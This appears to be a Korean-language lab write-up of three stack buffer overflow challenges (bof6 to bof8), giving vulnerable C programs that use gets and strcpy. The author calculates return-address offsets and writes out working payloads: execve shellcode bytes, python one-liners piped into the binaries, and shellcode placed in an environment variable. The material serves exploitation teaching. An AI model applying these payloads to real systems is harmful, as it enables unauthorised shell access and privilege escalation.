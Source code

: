 # bof6

<details>
<summary>bof6.c</summary>

```c
// AFTER => bof5.c
//       => shellcode.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON


void vuln() {
    char buf[BUF_SIZE];
    char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

    printf("[shellcode:%p]\n", shellcode);
    gets(buf);
    printf("Hello %s!\n", buf);

    if (setreuid(1007, 1007)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1007, 1007)) {
        perror("setgid");
        exit(1);
    }
}

int main() {
    vuln();
    return 0;
}
```
</details>

코드를 보면 vuln함수에서 버퍼오버플로우에 취약한 gets를 확인 할 수 있다. 그리고 쉘을 실행시킬 수 있는 어셈블리어가 shellcode변수에 저장되있는 것을 확인 할 수 있다. 따라서 버퍼오버플로우를 통해서 ret에 shellcode의 주소값으로 덮어 씌우면 쉘을 실행시킬 수 있을 것 같다.

vuln()을 실행시켰을 떄 rsp주소

![](./image_bof6/1.png)

gets를 실행시켰을 때 rdi주소

![](./image_bof6/2.png)

두 주소의 차이는 136이다

![](./image_bof6/3.png)

./bof6을 통해서 실행시켰을 때 shellcode의 주소값을 알 수 있다.


![](./image_bof6/4.png)

따라서 다음과 같은 페이로드를 작성할 수 있다.
```
(python -c "print 'x' * 136 + '\x40\xe4\xff\xff\xff\x7f'";cat) | ./bof6
```

# bof7

<details>
<summary>bof7.c</summary>

```c
// AFTER => bof6.c
//       => shellcode.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define R "\033[31m"
#define E "\033[0m"

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln(char * arg){
    char buf[BUF_SIZE];

    if (setreuid(1008, 1008)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1008, 1008)) {
        perror("setgid");
        exit(1);
    }

    strcpy(buf, arg);
    printf("Hello %s[%p]!\n", buf, buf);
}

int main(int c, char *v[]) {
    if (c < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(v[1]);
    return 0;
}
```

</details>

코드를 보면 인자를 받아서 vuln함수에 전달한다는 것을 알 수 있다. 그리고 버퍼오버플로우에 취약한 strcpy가 있다. 따라서 인자에 쉘을 실행시킬 수 있는 어셈블리어를 적어 buf에 저장하고 ret에 buf의 주소값을 전달하면 쉘을 실행시킬 수 있을 것 같다. 그 과정은 bof6과 동일하다.

vuln을 실행시켰을 때 rsp의 주소

![](./image_bof7/1.png)

strcpy를 실행시켰을 때 rdi의 값(strcpy의 첫번째 인자가 buf의 주소값이므로)을 알고 싶었지만 이상하게 strcpy까지 실행이 안된다. 그래서 disassemble 명령어를 통해 확인할 수 있었다.(이 방법은 동윤이가 알려줬습니다.)  rdi에는 rbp - 0x80의 주소값이 들어있는 것을 확인 할 수 있다.

![](./image_bof7/2.png)

rbp - 0x80의 주소

![](./image_bof7/3.png)

두 주소의 차이값 136

![](./image_bof7/4.png)

./bof7 hello를 통해 buf의 주소값을 확인한 결과

![](./image_bof7/5.png)

따라서 위의 결과를 모두 합치면 다음과 같은 페이로드를 만들 수 있다.

```
./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x' * 109 + '\x40\xe4\xff\xff\xff\x7f'"`
```

+입력되는 문자열의 개수에 따라 buf의 주소값이 바뀌는 것 같다. 따라서 세그폴트가 뜨면 출력되는 buf의 주소값에 맞춰 바꾸자   
+쉘 코드에 널문자 혹은 ;이 있어야한다는 생각이 들었지만 이미 저 코드에서는 포함이 되어있는 것 같다.  


# bof8

<details>
<summary>bof8.c</summary>


```c
// AFTER => bof7.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR OFF
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln() {
    char buf[BUF_SIZE];

    if (setreuid(1009, 1009)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1009, 1009)) {
        perror("setgid");
        exit(1);
    }
    gets(buf);
    printf("Hello %s[%p]!\n", buf, buf);
    printf("(env:SHELLCODE -> %p)\n", getenv("SHELLCODE"));
}

int main() {
    vuln();
    return 0;
}
```
</details>

코드를 보면 버퍼오버플로우에 취약한 gets함수를 확인 할 수 있고, 새로운 함수인 getenv를 볼 수있다. getenv를 확인한 결과 찾을 환경변수의 이름을 입력을 하면 그 환경변수를 찾고 찾았다면 그 값을 못 찾았다면 널값을 반환하는 함수이다. 그렇다면 환경변수를 설정하고 그 주소값을 ret에다가 덮어씌우면 쉘을 실행 시킬 수 있을 것 같다.

vuln함수를 실행시켰을 떄 rsp주소

![](./image_bof8/1.png) 

disassemble로 gets함수 부분에서 buf의 주소값을 확인

![](./image_bof8/2.png)

rpb - 0x8의 값

![](./image_bof8/3.png)

두 주소값의 차이

![](./image_bof8/4.png)

이제 환경 변수를 설정해보자. export 환경변수이름=값의 형태로 환경변수를 설정할 수 있다.(=띄어쓰기 하면 안된다.)

```
export SHELLCODE=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'")
```

+위와 같이 할 경우 환경 변수는 시스템을 재부팅하거나 재로그인을 하게 되면 사라져있다. 문제를 해결하기 위해서 중요한 것은 아니지만 환경변수를 영구적으로 적용을 할려면 /etc/bash.bashrc export 환경변수이름=값 을 하면되겠다. 만약 특정 사용자만 사용하게 하고 싶다면 /home/사용자명/.bashrc export 환경변수이름=값 을 하면된다. 

+특정 환경변수를 확인할려면 env | grep 환경변수이름 으로 확인할 수 있다.

+환경변수를 해제할려면 unset 환경변수이름 으로 가능하다.

환경 변수가 설정이 되었다면 bof8을 실행하여 환경변수의 주소값을 확인해 보자.

![](./image_bof8/5.png)

이제 이것들을 바탕으로 페이로드를 작성 해보자.

```
(python -c "print 'x' * 16 + '\x5f\xe8\xff\xff\xff\x7f'";cat) | ./bof8
```
